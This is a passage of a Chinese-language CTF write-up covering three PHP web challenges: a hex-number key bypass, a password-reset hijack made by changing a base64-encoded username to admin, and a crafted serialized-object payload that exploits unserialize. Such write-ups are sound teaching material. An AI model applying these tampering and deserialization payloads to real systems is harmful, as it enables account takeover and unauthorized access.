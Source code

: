 ```bash
    echo $flag;
else 
    echo 'access denied';
?>
```
因为key的值不能出现字母，但是又必须等于`54975581388`所以只能转换成其他进制，发现十六进制的，刚好都是字母`0xccccccccc`。所以
构造 
```bash 
key=0xccccccccc
```

# 重置密码
进入链接后重置的是ctfuser的密码，发现url链接中user1=ctfuser的base64加密，直接点击重置试一下，显示错误。通过pb拦截数据包，将用户名改为admin,相关链接中的user1的值改为admin的base64加密的值。
# php反序列化

```bash
<?php
class just4fun {
    var $enter;
    var $secret;
}

if (isset($_GET['pass'])) {
    $pass = $_GET['pass'];

    if(get_magic_quotes_gpc()){
        $pass=stripslashes($pass);
    }

    $o = unserialize($pass);

    if ($o) {
        $o->secret = "*";
        if ($o->secret === $o->enter)
            echo "Congratulation! Here is my secret: ".$o->secret;
        else 
            echo "Oh no... You can't fool me";
    }
    else echo "are you trolling?";
}
?>
```
[序列化小科普](http://blog.csdn.net/21aspnet/article/details/6908318)
首先运行下面代码
```bash
<?php   
class just4fun {  
    var $enter;  
    var $secret;  
    function just4fun()  
    {  
        $this->enter=&$this->secret;  
    }  
}  
echo serialize(new just4fun());  
?> 
```
得到 `O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}`
构造 
```
？pass=O:8:"just4fun":2:{s:5:"enter";N;s:6:"secret";R:2;}
```